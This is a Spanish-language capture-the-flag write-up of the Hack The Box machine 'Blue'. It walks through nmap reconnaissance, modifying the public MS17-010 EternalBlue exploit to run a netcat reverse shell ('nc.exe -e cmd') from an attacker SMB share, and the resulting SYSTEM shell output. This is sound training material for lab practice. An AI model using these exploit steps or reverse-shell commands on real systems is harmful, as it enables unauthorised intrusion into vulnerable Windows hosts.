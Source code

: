 ```yaml
---
layout: single
title: HTB-Blue
excerpt: "WriteUp de la máquina HTB Blue"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/blue/blueicon.png
categories:
  - WriteUps
tags:
  - HTB

---
```

<centre><img src="/assets/images/blue/blueicon.png"></centre>


[Maquina](https://app.hackthebox.com/machines/51) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.40 
```

```txt
Nmap scan report for 10.10.10.40
Host is up (0.042s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Al ver que el puerto 445 se encuentra abierto y que el SO es un Windows 7 SP1 podemos probar a usar el EternalBlue ya que es vulnerable.

[MS17-010](https://github.com/worawit/MS17-010)



## Explotación

```bash
git clone https://github.com/worawit/MS17-010
```

Primero, vamos a comprobar que el Windows sea vulnerable a este exploit y para ello vamos a usar el **checker.py** dandole permisos de administrador y cambiando un trozo de linea del código.

Donde poner username, pondremos un carácter porque si no, no funciona el script.

```bash
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'a'
PASSWORD = ''

NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')

```

Ejecutamos el Script poniendo la direccion ip de la máquina Blue.

```bash
python2 checker.py 10.10.10.40
```

imagenchecker

Al comprobar que funciona correctamente, procederemos a cambiar la misma parte del contenido en el fichero **zzz_exploit.py** y también dandole permisos de ejecución.

Buscamos dentro del archivo por **cmd** y comentamos las mismas lineas que en lo siguiente y descomentamos la única que se va a ejecutar y cambiamos a lo siguiente.

Liena a insertar con el cual ejecutaremos el netcat por el servidor smb de Kali y nos haremos una reverseShell a nuestro equipo teniendo el puerto 443 a la escucha con el comando **nc -lvp 443
**

Linea a introducir:
```bash
\\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443
```

Parte del archivo a cambiar:
```bash
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()
         
        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)
         
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

```

Servidor SMB con **impacket**
```bash
impacket-smbserver share $(pwd) -smb2support

```


Procederemos a la ejecucion del script.

```bash
python2 zzz_exploit.py 10.10.10.40
```

Y comprobaremos que somos **nt authority*

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::ec27:2916:8a1f:869e
   Temporary IPv6 Address. . . . . . : dead:beef::a4ad:6053:ef18:5158
   Link-local IPv6 Address . . . . . : fe80::ec27:2916:8a1f:869e%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```
